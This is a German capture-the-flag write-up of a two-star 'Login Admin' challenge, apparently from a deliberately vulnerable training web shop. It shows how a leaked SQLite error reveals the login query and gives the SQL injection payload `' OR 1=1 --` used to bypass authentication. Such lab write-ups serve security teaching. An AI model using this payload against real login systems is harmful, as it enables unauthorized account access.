




# Login Admin

***2 Star Challenge 1/23***

Log in with the administrator's user account.

---

## Step 1
Richtig einloggen und den Request & Response ansehen.



## Step 2
Falsch einloggen und den Request & Response ansehen.

Mit absicht fehlermeldungen verurschen um daraus Informationen beziehen zu können.




## Step 3
Informationen auswerten.
- Wo geht der Request hin?
- Was wird alles mit geschickt?
- Was kommt zurück?
- Framework?
- Versionen?
- Datenbank?

````json
{
  "error": {
    "message": "SQLITE_ERROR: unrecognized token: \"3590cb8af0bbb9e78c343b52b93773c9\"",
    "parent":{
      "sql": "SELECT * FROM Users WHERE email = ''' AND password = '3590cb8af0bbb9e78c343b52b93773c9' AND deletedAt IS NULL"
    }
  }
}
````

## Step 4
SQL Injection vorbereiten.

Mit der eingabe von `' OR 1=1 --` wird unser payload an die datenbank so aussehen

````sqlite
"SELECT * FROM Users WHERE email = '' OR 1=1 --' AND password = '3590cb8af0bbb9e78c343b52b93773c9' AND deletedAt IS NULL"
````
und uns als den ersten treffen in der datenbank einloggen.

Erstes Hochkomma beenden sonst kommt ein syntax fehler und weiter Logik anhängen `OR 1=1` ergibt `TRUE` und `--` leitet in sqlite ein Kommetar ein, wodurch alle nachfolgenden befehle auskommentiert werden, wie die Password eingabe.

- `'`: Text Eingabe Schließen
- `OR 1=1` Sichers True erzeugen
- `--` Alles weiter auskommentieren



---

:::success Challenge completed!
You successfully solved a challenge: Login Admin (Log in with the administrator's user account.)
:::

